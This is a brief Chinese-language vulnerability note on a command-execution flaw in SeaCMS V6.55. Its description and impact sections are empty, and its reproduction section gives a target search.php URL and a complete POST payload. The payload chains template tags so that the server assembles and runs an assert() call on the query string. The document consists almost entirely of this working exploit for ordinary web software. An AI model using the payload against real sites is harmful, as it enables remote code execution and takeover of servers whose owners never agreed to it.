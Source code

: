 ```yaml
---
title: Seacms V6.55
id: zhfly3116
---
```


# Seacms V6.55 命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> path:

```
http://0-sec.org/search.php 
```

> POST:

```
searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/* 
```